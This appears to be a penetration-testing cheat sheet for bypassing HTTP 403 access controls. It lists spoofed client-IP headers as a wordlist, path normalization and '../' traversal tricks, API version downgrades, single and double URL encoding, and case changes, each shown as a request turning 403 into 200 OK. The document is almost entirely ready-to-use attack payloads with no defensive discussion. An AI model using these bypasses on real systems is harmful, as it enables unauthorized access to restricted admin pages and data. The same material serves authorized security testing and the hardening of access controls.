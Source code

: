 ### Adding X-Forwarded-Host Header
```
X-Forwarded-Host: 127.0.0.1 >> 200 OK
```
Try this wordlist:
```txt
    X-Originating-IP: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    Forwarded-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-ProxyUser-Ip: 127.0.0.1
    X-Original-URL: 127.0.0.1
    Client-IP: 127.0.0.1
    True-Client-IP: 127.0.0.1
    Cluster-Client-IP: 127.0.0.1
    X-ProxyUser-Ip: 127.0.0.1
    Host: localhost
```
### Exploiting Path Normalization
```
/secure/admin >> 403 Access Denied
/secure/./admin >> 200 OK
```
### Path traversal
```
/admin >> 403 Access Denied
/secure/../admin >> 200 OK
```
### api version changing
```
/v2/users/1337 >> Access Denied
/v1/users/1337 >> 200 OK
/v1.1/users/1337 >> 200 OK
```
### HTML encoding
```
/hidden >> 403 Access Denied
/hidde%6e >> 200 OK
```
If it not works, try double encoding.
```
/hidde%256e > 200 OK
```
### Case changing
```
/admin >> 403 Access Denied
/admiN >> 200 OK
```
